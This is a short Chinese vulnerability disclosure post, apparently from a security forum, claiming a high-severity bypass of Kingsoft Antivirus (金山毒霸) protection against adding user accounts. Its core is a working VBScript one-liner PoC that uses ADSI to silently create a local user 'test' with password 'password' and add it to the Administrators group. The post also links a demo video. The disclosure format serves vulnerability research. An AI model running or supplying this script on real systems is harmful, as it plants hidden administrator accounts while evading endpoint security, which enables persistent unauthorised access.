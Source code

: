 # Bypass金山毒霸

> 原文：[https://www.zhihuifly.com/t/topic/3457](https://www.zhihuifly.com/t/topic/3457)

# 金山毒霸添加用拦截功能绕过

# 相关厂商

金山毒霸

# 漏洞类型

拦截绕过

# 自评危害等级

高危

# 详细介绍：

金山毒霸添加用拦截功能绕过

POC如下：

```
set wsnetwork=CreateObject("WSCRIPT.NETWORK"):os="WinNT://"&wsnetwork.ComputerName:Set ob=GetObject(os):Set oe=GetObject(os&"/Administrators,group"):Set od=ob.Create("user","test"):od.SetPassword "password":od.SetInfo:Set of=GetObject(os&"/test",user):oe.add os&"/test" 
```

![image](img/3dda38be07fd0b4b1b6f13482d14390b.png)

测试视频演示下载地址：https://pan.baidu.com/s/1YsRrLVeALZH0vudbCn6WPQ 0sec
链接如挂，请群内反馈,谢谢